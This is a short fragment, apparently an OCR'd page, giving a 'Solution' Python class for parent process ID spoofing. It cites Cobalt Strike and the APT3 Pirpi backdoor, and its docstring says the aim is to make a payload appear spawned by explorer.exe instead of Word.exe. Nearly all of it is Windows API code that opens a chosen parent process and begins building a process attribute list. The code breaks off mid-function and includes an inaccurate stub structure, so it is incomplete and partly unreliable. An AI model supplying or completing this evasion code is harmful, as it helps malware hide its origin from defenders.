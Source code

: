 **Research Reference:**
- **"PPID Spoofing" - @FuzzySec (2017)**
- **Cobalt Strike** - PPID spoofing since 2018
- **APT3** - Used PPID spoofing in "Pirpi" backdoor (2017)

**Solution:**
```python
class PPIDSpoofer:
    """
    Parent Process ID spoofing
    
    Research:
    - @FuzzySec blog "Code injection and PPID spoofing" (2017)
    - Cobalt Strike implementation (2018+)
    - APT3 Pirpi backdoor analysis
    
    Makes child process appear to be spawned by legitimate parent
    Example: Payload appears spawned by explorer.exe not Word.exe
    """
    
    def create_process_with_spoofed_parent(self, 
                                           executable: str,
                                           parent_pid: int = None) -> int:
        """
        Create process with spoofed parent
        
        Args:
            executable: Process to create
            parent_pid: PID to spoof as parent (default: explorer.exe)
        
        Returns:
            PID of created process
        """
        if sys.platform != 'win32':
            return None
        
        # 1. Find parent to spoof (if not provided)
        if parent_pid is None:
            parent_pid = self._find_explorer_pid()
        
        # 2. Open parent process
        PROCESS_CREATE_PROCESS = 0x0080
        parent_handle = self.kernel32.OpenProcess(
            PROCESS_CREATE_PROCESS,
            False,
            parent_pid
        )
        
        if not parent_handle:
            return None
        
        # 3. Initialize process attributes
        SIZE_T = ctypes.c_size_t
        
        class PROC_THREAD_ATTRIBUTE_LIST(ctypes.Structure):
            _fields_ = [("dwFlags", wintypes.DWORD)]
        
        # Allocate attribute list
        size = SIZE_T()
        self.kernel32.InitializeProcThreadAttributeList(
            None, 1, 0, ctypes.byref(size)
        )
        
        attr_list = (ctypes.c_ubyte * size.value)()
```